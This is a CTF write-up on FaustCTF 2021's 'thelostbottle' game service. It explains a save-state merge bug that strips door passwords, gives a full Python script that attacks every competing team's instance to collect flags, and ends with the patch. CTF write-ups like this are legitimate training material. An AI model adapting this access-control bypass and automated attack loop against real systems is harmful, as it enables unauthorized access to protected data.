

# FaustCTF 2021 - Attack & Defense - thelostbottle
```
The Lost Bottle is the most awesome pirate game.
It is about a young pirate, that lost her favorite bottle of old rum.
She is now doomed to drink ordinary rum until she finds her bottle.
```

Flags: 2531.00

Tags: rev, misc, game

## Introduction

After discovering that this is a game challenge I quickly stopped doing everything else and jumped onboard! 

This is a little 2D game in which you control a pirate. Apparently the goal is to find a lost bottle but we will completly ignore that for our exploit.

We were the first team to automate this and ended up getting the most points out of the challenge.


## Running the client & figuring out the controls

The first step was to figure out how to actually play the game. It came with a python client based on the **arcade** library. I wasted a long time trying to figure out how to run this on my linux VM. The game would start but only show a blank screen. Fortunatly there was this troubleshooting section:


So I just started doing everything right and ran the game on Windows.

Next up was to figure out which controls were available. While the documentation lists 9 remarkable features of this game, it unfortunatly doesn't list the controls. Reading the client source code brought them to light:
- Arrow keys for movement
- E for interact
- S for saving

These are things we can do in the game:
- Walk
- Drink rum
- Break stuff
- Travel by ship to another island/room. Sometimes you need a password for that.

# Searching for the bug

This password feature is suspicious. Where does such a boat bring us? Time to analyze the map format. For that I downloaded a random map from our Vulnbox (luckily it is easily readable JSON).
A map consists of a dictionary of rooms. Each room has a list of exits. Each exit references another room and has a *keypad* entry, which is either empty or contains the necessary password.



Additionally each room has a list of elements. There seem to be different types of these. Elements with id=1 contain a flag. The same flag is also contained in a dream, which can be unlocked after drinking a lot of rum.

**Bug idea 1**: Maybe the password is stored inside the save that we can download. That would allow us to go through the locked doors behind which a flag is probably hidden.

To test this idea we download a save and look at it. Unfortunatly it turns out that the save is a very stripped down version of the map without the password.

**Bug idea 2**: Maybe we can modify the save and change the ID of the room we are currently in to a room with a flag element inside.

This also does not work. The game complains that you can only start in "saveable" rooms. We can modify this attribute in the save however! Let's make all rooms savable and load our state! Still the same error. Weird. Time to read the server source.

As it turns out, when loading a save the server loads the original level from its own storage and merges it with the savestate.

```python
check_has(save_state, ["map"])
orig_map = save_state["map"]
self.load_map(orig_map)
self.state.parse(save_state, None, merge = True)
```

During merging our fake "saveable" attributes are ignored.

```python
if not merge:
    self.saveable = j["saveable"]
```

**Bug idea 3**: This merging functionality seems extremly suspicious. Maybe there are other attributes that we can overwrite?

Quickly I found this code:
```python
if not merge:
    if "keypad" not in e:
            fail("Missing keypad entry")
        keypad = e["keypad"]
else:
    keypad = None
```

**Actual bug**: When merging the exits of a room all keypad entries will be overwritten with None, removing the password protection!

Quickly testing this in the game confirms the bug and reveals that we can find a sign in the new room revealing the flag when interacting. Awesome!

## Automating the exploit

The goal is to write a script that does the following:
1. Grab the IPs & map names for all teams from the API endpoint provided by the organizers
2. For each map repeat steps 3-7
3. Start the game with the given map
4. Make a savestate
5. Exit the game
6. Load the savestate
7. Go through all exits until a sign with a flag is found

Thankfully, in this case, automating these steps is releatively easy. We can steal all the functionality from the client to communicate different actions with the server. The only difficult part is to write an (efficient) algorithm that goes through all exits until a flag is found. At least movement is client-side, so we can always just pretend that we are standing on an exit without having to actually move there.

The idea for the (somewhat) efficient exit traversal algorithm is the following:
We want to keep track of which exits we have already tried in which room, to make sure that we explore all of them. If all exits have been used already we select a random exit to use. This algorithm is not perfect but seemed good enough for the small levels.

We use a dictionary where the keys are hashes of a rooms JSON string (since the server does not provide room IDs) and the values are lists of exit positions.

Full script:
```python
import os
import sys
import json
import time
import base64
import socket
import urllib.request, json 
from struct import *
import subprocess
import hashlib
import random
import re


# Stolen from client
RECV_SIZE = 512
MAX_MSG_SIZE = 2**20

"""
socket := socket to sent to
msg: message as a json object
"""
def send_json(socket, msg):
	msg_str = json.dumps(msg).encode()
	msg_encoded = base64.b64encode(msg_str)
	mlen = len(msg_encoded)
	assert mlen <= MAX_MSG_SIZE, "Message too long"
	sz = pack('I', mlen)
	socket.send(sz)
	socket.send(msg_encoded)
	socket.send(sz)

"""
receive exactly n bytes
"""
recv_buffer = b''
def recv_bytes(socket, n):
	global recv_buffer
	while len(recv_buffer) < n:
		r = socket.recv(RECV_SIZE)
		if r == b'':
			raise ConnectionResetError("Disconnect")
		recv_buffer += r
	ret = recv_buffer[:n]
	recv_buffer = recv_buffer[n:]
	return ret

"""
receive a json object
"""
def recv_json(socket):
	sz = recv_bytes(socket, 4)
	mlen = unpack('I', sz)[0]
	assert mlen <= MAX_MSG_SIZE, "Message size too large {}".format(mlen)
	msg_encoded = recv_bytes(socket, mlen)
	sz2 = recv_bytes(socket, 4)
	mlen2 = unpack('I', sz2)[0]
	assert mlen2 == mlen, "Sizes do not match"
	msg_str = base64.b64decode(msg_encoded)
	msg = json.loads(msg_str)
	return msg

"""
pair of sending a message and receiving an answer
"""
def communicate(socket, msg):
	send_json(socket, msg)
	m = recv_json(socket)
	if not m["success"]:
		print(m["msg"])
		sys.exit(1)
	return m["msg"]


# Actually my terrible code

def get_maps_and_team_nr():
    l = []
    with urllib.request.urlopen("https://2021.faustctf.net/competition/teams.json") as url:
        data = json.loads(url.read().decode())
        for team_nr in data["teams"]:
            try:
                maps = data["flag_ids"]["The Lost Bottle"][str(team_nr)]
                l.append((team_nr, maps))
            except KeyError as e:
                pass
    #print(l)
    return l
            
def get_savestate(sock):
    m = communicate(sock, {"type": "SAVE"})
    path = "mysave_{}.bin".format(time.time())
    with open(path, "wb") as outf:
        outf.write(base64.b64decode(m))
    print(f"Created {path}")
    return m, path

def append_to_room_list(room, rooms):
    if hash(room) not in rooms:
        rooms[hash(room)] = []
        return rooms

def go_to_new_room(sock, old_room, rooms):
    #print(rooms)
    exits = old_room["room"]["exits"]

    for e in exits:
        tup = (e["x"], e["y"])
        if tup in rooms[hash(old_room)]:
            #print("passing")
            pass
        else:
            #print(f"Going from {hash(old_room)} through exit {tup}")
            rooms[hash(old_room)].append(tup)
            new_room = communicate(sock, {"type": "ROOM", "exit": tup, "pwd": None})
            append_to_room_list(new_room, rooms)
            if look_for_sign(new_room, sock):
                return new_room, rooms, True
            return new_room, rooms, False
    
    # all exits taken before -> take random one
    e = exits[random.randint(0, len(exits)-1)]
    #print(f"Going from {hash(old_room)} through exit {tup}")
    rooms[hash(old_room)].append((e["x"], e["y"]))
    new_room = communicate(sock, {"type": "ROOM", "exit": (e["x"], e["y"]), "pwd": None})
    append_to_room_list(new_room, rooms)
    if look_for_sign(new_room, sock):
        return new_room, rooms, True
    return new_room, rooms, False

def look_for_sign(room, sock):
    success = False
    for el in room["room"]["elements"].values():
        if el["id"] == 1:
            print("FLAG")
            val = communicate(sock, {"type": "INAK", "pos": (el["x"], el["y"])})
            print(val)
            success = True
    return success

def hash(room):
    return hashlib.md5(json.dumps(room).encode()).hexdigest()

def main():
    try:
        all_teams = get_maps_and_team_nr()

        for t in all_teams:
            ip = f"fd66:666:{str(t[0])}::2"
            port = 5555

            print(f"Connecting to {ip} {port}")

            try:
                for map_str in t[1]:
                    rooms = {}
                    #print(map_str)

                    # Connect and make savestate
                    sock = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
                    sock.connect((ip, port, 0, 0))
                    room = communicate(sock, {"type": "HELO", "cmd": "new", "map": map_str})
                    room, path = get_savestate(sock)
                    
                    # Disconnect
                    sock.close()


                    # Connect and send savestate
                    with open(path, "rb") as inf:
                        content = inf.read()
                        play_map = base64.b64encode(content).decode()

                    sock = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
                    sock.connect((ip, port, 0, 0))
                    room = communicate(sock, {"type": "HELO", "cmd": "load", "map": play_map})
                    rooms = append_to_room_list(room, rooms)

                    flag_found = False
                    i = 0
                    while not flag_found:
                        room, rooms, flag_found = go_to_new_room(sock, room, rooms)
                        i += 1

                        if i > 50:
                            # Emergency break
                            break
            except Exception as e:
                pass
    except Exception as e:
        #print(e)
        pass
main()
```

## Patch

The patch is very straighforward. Replace line 144 in entities.py.

Before:
```python
keypad = None
```

After:
```
keypad = self.exits[p]["keypad"]
```

## Summary
Thank you to the author(s) for this very fun challenge! My guess is that there is a second bug connected to drinking run and getting the flag from the dream.